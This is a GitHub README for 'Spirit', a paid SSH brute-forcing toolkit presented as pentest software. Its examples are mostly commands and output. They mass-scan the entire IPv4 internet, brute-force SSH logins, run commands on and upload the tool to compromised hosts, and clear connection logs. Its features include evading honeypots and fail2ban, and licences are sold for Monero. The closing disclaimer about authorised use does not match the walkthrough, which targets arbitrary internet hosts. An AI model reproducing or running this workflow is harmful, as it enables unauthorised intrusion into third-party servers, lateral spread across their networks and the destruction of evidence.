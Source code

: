 # Spirit - Network Pentest Tools

### [Download the latest Spirit release](https://github.com/theaog/spirit/releases)

> [`$ ./spirit --help`](./HELP) shows you all the included tools. \
Most commands have subcommands `./spirit <command> --help`

## Quick Start
```bash
# install masscan
sudo apt install masscan
# copy masscan into your current working directory
cp `which masscan` .

# download spirit
wget https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
# unpack spirit
tar xvf spirit.tgz

# start the show! <class-A> <port1,port2,port3> <speed> 
# ./spirit ports generates 3 random ports 1-65535 and keeps track of
# already generated port numbers in ports.lst
./go.sh 172 $(./spirit ports) 50000
```

## Support
Telegram (https://github.com/theaog/spirit)
IRC (#pentest@Undernet)

## Example usage for SSH brute flow TLDR;
```bash
# First scan your network or the internet (check disclaimer) to acquire a list of open ports.
$ masscan \
    --rate="50000" \
    --ports "22,222,2222,2212" 0.0.0.0/0 \
    --exclude 255.255.255.255 \
    -oG open.lst
Scanning 4294967295 hosts [4 ports/host]
# masscan will create an open.lst file in oG (output Greppable) format.

# Parse this open.lst to format the data, so that spirit can understand it.
$ ./spirit parse
INFO created h.lst in HOST:PORT format

# Optional: create a filter.lst file if you want to skip certain SSH versions.
$ cat >filter.lst<< EOF
SSH-1.0
SSH-2.0-CISCO
SSH-2.0-Comware
EOF

# Grab SSH banners to make sure your target version is running on the host. NOTE: Makes a backup of h.lst to h.lst.bak
$ ./spirit banner
INFO backing up h.lst to h.lst.bak
SSH-2.0-OpenSSH_8.2p  13% [=>                  ] [11s:1m15s]
INFO created h.lst in HOST:PORT:BANNER format
head -n1 h.lst
100.100.100.100:2222:SSH-2.0-OpenSSH_6.6.1

# Add a password list, spirit will automatically load user:pass from a p.lst file.
# NOTE: if p.lst is not present, Spirit uses an internal passfile
$ cat > p.lst << EOF
user1:pass1
user1:pass2
user2:pass50
EOF

# Start bruting...
$ ./spirit brute
INFO loaded h.lst with 26803 hosts
INFO loaded p.lst with 4881 logins
[2478/4653]root:!1qwerty [77]found [33]blocked [1284]threads 20% [====>               ] [20s:1h13m36s]
failed connections statistics:
(    7)  ssh: closed network connection 30s timeout
(    7)  total failed
results stored in:
- found.ssh # for quick manual connect
- found.login # user:pass combinations that worked
- found.lst # used by `spirit auto-ssh` for connecting en-masse
[26803]hosts [4000]bruted [3000]found [19803]blocked

# Connect to all your found hosts automatically & run commands.
$ ./spirit auto-ssh --command 'whoami && uptime'
# Upload spirit to all hosts and scan the LAN
$ ./spirit auto-ssh --upload ./spirit --command '/dev/shm/spirit scan --lan'
```

> Tip: you can automate these steps with `./spirit auto-brute` for continuous automatic probing on random ports & bruting. ![forever](asset/forever.png)

## Upgrade Spirit automaticaly
```bash
./spirit upgrade
Upgrading 87% [========================>     ] (5.9/5.9 MB, 49.652 MB/s)
```

## Spirit is Free (sorta)
For `local IP` (10/172/192) ranges and up to 10 minutes on `public IPs`

## You can unlock Spirit's full functionality directly from the CLI by obtaining a license.
```bash
$ ./spirit buy
Monero only, you can convert other crypto assets to XMR on https://tradeogre.com
+--------------+-------------------+------------------+
| SPIRIT BASIC |    SPIRIT PRO     |   SPIRIT ULTRA   |
+--------------+-------------------+------------------+
| brute        | brute-key         | exploit          |
| banner       | omni-ssh          | proxy-banner     |
| parse        | masscan           | encrypt          |
| ports        | passwd            |                  |
| zap          | abuse             |                  |
| scan         | bot               |                  |
| auto-brute   |                   |                  |
+--------------+-------------------+------------------+
|  3 SERVERS   | 6 SERVERS + BASIC | 12 SERVERS + PRO |
+--------------+-------------------+------------------+
Use the arrow keys to navigate: ↓ ↑ → ←
? Select your Spirit version::
    Basic TRIAL (3days) $10
    Basic $100
    Pro $150
  ▸ Ultra $300
    Referral code
```

## Key Features
- extracts SSH banners accurately (retry failed hosts) and fast (many threads)
- brute multiple ports at once: 1.1.1.1:22, 1.1.1.1:23, etc.
- brute using private keys `./spirit brute-key --file id_rsa`
- brute auto-blocks honeypots not wasting time nor giving away all your passwords
- brute also blocks hosts that are unreachable, or have fail2ban installed (less dull work, faster scanning)
- brute will try every connection twice before blocking unreachable hosts to increase accuracy
- very light on server load, your CPU will thank you!
- `./spirit omni -c 'uptime'` connect to all your found hosts at once, upload files and execute remote commands
- `./spirit zap` clean connection logs 
- `./spirit masscan --zone zone.lst --rate 10_000` masscan whole zones automatically 
- `./spirit auto-brute` scan & brute your network on random ports over and over -- spot vulnerabilities before they happen
- `./spirit exploit` test targets for common local and remote exploits
- and more... [`$ ./spirit --help`](./HELP) 

# Support our development
## Monero (XMR) thank you! (our favorite)
`895LJnKcfTv7NHf7SN1zz5UzhBRwwvdR8NYLvXNr54jJ3GXghBoyfBKLp2dL4GcYohQatRnigct8zgK6utkjjeBxVNsky1s`

![xmrqr](asset/xmrqr.png)

## Bitcoin (BTC) thank you too!
`bc1q7plm79dgllrhrjz772x4vjrtvu9yy03738psy5`

## Get Help & Support
Open a Github [issue](https://github.com/theaog/spirit/issues) and consider encrypting your message using this pub key [aog.gpg](asset/aog.gpg).

Don't forget to give us a Star!

> NOTICE: rumors have been circulating that `spirit` contains a backdoor -- that's not true, we would never do that. We offer a bounty of 50XMR to whomever opens an issue in this repo and provides undeniable proof of the "alleged" backdoor.

# Disclaimer

This tool should be used for authorized penetration testing and/or educational purposes only.
Any misuse of this software will not be the responsibility of the author or of any other collaborator.
Use it on your own systems and/or with the system owner's permission.

Usage of any tools in this repository for attacking targets without prior mutual consent is illegal.
It is the end user’s responsibility to obey all applicable local, state and federal laws.
We assume no liability and are not responsible for any misuse or damage caused.

